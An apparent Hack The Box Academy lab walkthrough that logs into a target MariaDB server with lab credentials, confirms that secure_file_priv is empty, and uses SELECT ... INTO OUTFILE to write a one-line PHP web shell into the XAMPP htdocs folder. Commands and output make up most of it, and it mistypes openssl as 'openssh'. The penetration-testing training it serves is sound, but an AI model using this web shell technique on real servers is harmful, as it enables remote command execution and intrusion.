 ```shell
mysql -u fiona -p987654321 -h STMIP
```

```
┌─[eu-academy-1]─[10.10.14.45]─[htb-ac413848@htb-8ggdvgqazc]─[~]
└──╼ [★]$ mysql -u fiona -p987654321 -h 10.129.242.84

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 8
Server version: 10.4.24-MariaDB mariadb.org binary distribution

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

Subsequently, to check whether files can be read and written, students need to query for the value of the global variable `secure_file_priv`, finding it to be empty, therefore, files can be read and written:

Code: shell

```shell
show variables like "secure_file_priv";
```

```
MariaDB [(none)]> show variables like "secure_file_priv";

+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv |       |
+------------------+-------+
1 row in set (0.016 sec)
```

Students need to write a PHP file that contains a web shell (students can generate a random name with the command `openssh rand -hex 16`) with the statement `SELECT ... INTO OUTFILE`, utilizing the `Apache` directory `/xampp/htdocs`:

Code: sql

```sql
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE 'C:/xampp/htdocs/90957b76a1f20de2b13c5bcb2d05b5cf.php';
```

```
MariaDB [(none)]> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE 'C:/xampp/htdocs/90957b76a1f20de2b13c5bcb2d05b5cf.php';

Query OK, 1 row affected (0.015 sec)
```
